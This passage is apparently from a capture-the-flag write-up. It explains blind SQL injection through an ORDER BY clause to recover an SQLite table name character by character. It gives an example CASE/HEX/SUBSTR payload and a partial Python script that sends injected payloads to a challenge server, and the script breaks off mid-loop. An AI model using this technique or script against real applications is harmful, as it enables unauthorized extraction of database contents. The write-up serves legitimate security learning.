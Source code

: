 ### What we need to find

We need the flag of course. But the flag is stored as an entry inside of a table we don't know the name of.

And since we can only inject into an ORDER BY clause, we can't get the name of the table (or the value of the flag for that matter) directly, but have to guess it letter by letter.

Let's build an example. Say we want to check if the 5th symbol of the table name is indeed `_` as in `flag_`. That would be `5F` in hex. We can do this like so

```sql
SELECT * FROM emojis
ORDER BY
	(CASE
    	(SELECT HEX(SUBSTR(tbl_name, 5, 1)) from 
        	(SELECT tbl_name FROM sqlite_master
            	WHERE type='table' and tbl_name like 'flag%'))
     WHEN '5F' THEN name ELSE count END) DESC
```

> Note: sqlite can't turn symbols into ASCII codes, so we have to use HEX instead. Also, HEX only matches hexes with no prefix (like `0x`), and only with capital letters (like `D4`).

The statement above will return the emojis in descending order by `name` if the fifth symbol is `_`, or ordered by `count` if the 5th symbol isn't an underscore.

## Solution

With our example in mind, let's build a script which will get the table name with the flag in it. We need to

1. Build a dictionary of printable symbols in hex
2. For each position in the name of the table, iterate through our dicitonary of symbols
3. If the order of the emojis corresponds to a True statement, record that symbol as part of the table name
4. Rinse and repeat until we reach the length of the table name (which we know is `flag_ + 10 ASCII symbols (5bytes in hex)`.

```python
#!/usr/bin/env python3

import requests
import string

url = 'http://138.68.179.198:32342/api/list'

listOfPrintable = list(string.printable)
listOfHexies = []
for char in listOfPrintable:
  listOfHexies.append(format(ord(char), 'x').upper())
dictie = dict(zip(listOfHexies, listOfPrintable))

def findTableName():
  tableNameLen = 15
  tableName = 'flag_'
  lookForCharOfIndex = 6

  while lookForCharOfIndex <= tableNameLen:

    for hexie in listOfHexies:
      data = {"order":f"(CASE (SELECT HEX(SUBSTR(tbl_name, {lookForCharOfIndex}, 1)) from (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name like 'flag%') ) WHEN '{hexie}' THEN name ELSE count END) DESC--"}

      r = requests.post(url, data=data)

```